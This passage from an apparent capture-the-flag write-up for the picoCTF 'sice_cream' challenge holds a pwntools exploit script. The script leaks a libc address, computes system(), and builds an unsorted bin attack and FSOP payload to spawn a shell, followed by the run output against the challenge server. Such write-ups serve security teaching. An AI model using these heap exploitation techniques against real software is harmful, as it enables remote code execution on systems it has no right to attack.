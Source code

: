 ```py
# ret fake chunk from fast bin
buy(20, 'E'*8) # 5

# the size must be greater than 0x88 to insert to unsorted bin after eat.
reintroduce(p64(0) + p64(0x91))
eat(5)

# leak libc: unsorted bin address
reintroduce('A'*15)
p.recvline()
addrStr = p.recvline()[:-2]
leakAddr = u64(addrStr.ljust(8, b"\x00"))
log.info("leakAddr: {}".format(hex(leakAddr)))

# system address
systemAddr = leakAddr - unsortedBinOffset + systemOffset

# _IO_list_all
IOListAllAddr = leakAddr + 0x9a8
log.info("IO_list_all: {}".format(hex(IOListAllAddr)))

# unsorted bin attack + FSOP
payload = sh + p64(0x61) + p64(leakAddr) + p64(IOListAllAddr - 0x10)
payload += p64(2) + p64(3) + p64(systemAddr) * 0x12 + p64(0) * 3 + p64(nameAddr + 0x30)

reintroduce(payload)

# trigger malloc then get the shell after crash 
p.sendlineafter('>','1')
p.sendlineafter('>', '50')

p.interactive()
```

### 执行结果

```bash
clot@ubuntu:~/CTF/sice_cream$ python3 sice_cream.py 
[*] '/home/clot/CTF/sice_cream/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/clot/CTF/sice_cream/sice_cream'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
[+] Opening connection to jupiter.challenges.picoctf.org on port 51860: Done
[*] leakAddr: 0x7fd4ff71fb78
[*] IO_list_all: 0x7fd4ff720520
[*] Switching to interactive mode
 *** Error in `/problems/sice-cream_2_fba6d241362269d610df62c069a9828f/sice_cream': malloc(): memory corruption: 0x00007fd4ff720520 ***
======= Backtrace: =========
./libc.so.6(+0x777e5)[0x7fd4ff3d27e5]
./libc.so.6(+0x8213e)[0x7fd4ff3dd13e]
./libc.so.6(__libc_malloc+0x54)[0x7fd4ff3df184]
/problems/sice-cream_2_fba6d241362269d610df62c069a9828f/sice_cream[0x4009d8]
/problems/sice-cream_2_fba6d241362269d610df62c069a9828f/sice_cream[0x400c8f]
```